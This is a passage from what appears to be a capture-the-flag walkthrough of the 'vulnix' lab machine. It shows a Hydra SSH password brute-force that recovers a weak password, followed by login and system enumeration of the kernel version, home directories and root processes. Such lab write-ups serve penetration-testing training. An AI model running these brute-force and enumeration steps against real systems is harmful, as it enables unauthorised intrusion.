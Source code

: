 **

The user account looks interesting.

root@kali:~/vulnix# hydra -l user -P /usr/share/wordlists/fasttrack.txt 192.168.118.188 ssh
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-05-21 14:06:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 222 login tries (l:1/p:222), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.118.188   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-05-21 14:07:01
root@kali:~/vulnix#

Cool password.

user@vulnix:~$ cat /proc/version
Linux version 3.2.0-29-generic-pae (buildd@roseapple) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu5) ) #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012
user@vulnix:~$

user@vulnix:~$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Sep  2  2012 .
drwxr-xr-x 22 root   root   4096 Sep  2  2012 ..
drwxr-x---  3 user   user   4096 Sep  2  2012 user
drwxr-x---  2 vulnix vulnix 4096 Sep  2  2012 vulnix
user@vulnix:~$ ps aux | grep root
root         1  0.0  0.3   3512  1948 ?        Ss   18:05   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S    18:05   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    18:05   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S    18:05   0:00 [kworker/u:0]
root         6  0.0  0.0      0     0 ?        S    18:05   0:00 [migration/0]
root         7  0.0  0.0      0     0 ?        S    18:05   0:00 [watchdog/0]
root         8  0.0  0.0      0     0 ?        S<   18:05   0:00 [cpuset]
root         9  0.0  0.0      0     0 ?        S<   18:05   0:00 [khelper]
root        10  0.0  0.0      0     0 ?        S    18:05   0:00 [kdevtmpfs]
root        11  0.0  0.0      0     0 ?        S<   18:05   0:00 [netns]
root        12  0.0  0.0      0     0 ?        S    18:05   0:00 [sync_supers]
root        13  0.0  0.0      0     0 ?        S    18:05   0:00 [bdi-default]
root        14  0.0  0.0      0     0 ?        S<   18:05   0:00 [kintegrityd]
root        15  0.0  0.0      0     0 ?        S<   18:05   0:00 [kblockd]
root        16  0.0  0.0      0     0 ?        S<   18:05   0:00 [ata_sff]
root        17  0.0  0.0      0     0 ?        S    18:05   0:00 [khubd]
root        18  0.0  0.0      0     0 ?        S<   18:05   0:00 [md]
root        21  0.0  0.0      0     0 ?        S    18:05   0:00 [khungtaskd]
root        22  0.0  0.0      0     0 ?        S    18:05   0:00 [kswapd0]
root        23  0.0  0.0      0     0 ?        SN   18:05   0:00 [ksmd]
root        24  0.0  0.0      0     0 ?        S    18:05   0:00 [fsnotify_mark]
root        25  0.0  0.0      0     0 ?        S    18:05   0:00 [ecryptfs-kthrea]
root        26  0.0  0.0      0     0 ?        S<   18:05   0:00 [crypto]
root        34  0.0  0.0      0     0 ?        S<   18:05   0:00 [kthrotld]
root        37  0.0  0.0      0     0 ?        S    18:05   0:00 [scsi_eh_0]
root        38  0.0  0.0      0     0 ?        S    18:05   0:00 [scsi_eh_1]
root        39  0.0  0.0      0     0 ?        S    18:05   0:00 [kworker/u:3]
root        60  0.0  0.0      0     0 ?        S<   18:06   0:00 [devfreq_wq]
root       175  0.0  0.0      0     0 ?        S<   18:06   0:00 [mpt_poll_0]
root       178  0.0  0.0      0     0 ?        S<   18:06   0:00 [mpt/0]
root       202  0.0  0.0      0     0 ?        S    18:06   0:00 [scsi_eh_2]
root       215  0.0  0.0      0     0 ?        S<   18:06   0:00 [kdmflush]
root       223  0.0  0.0      0     0 ?        S<   18:06   0:00 [kdmflush]
root       237  0.0  0.0      0     0 ?        S    18:06   0:00 [jbd2/dm-0-8]
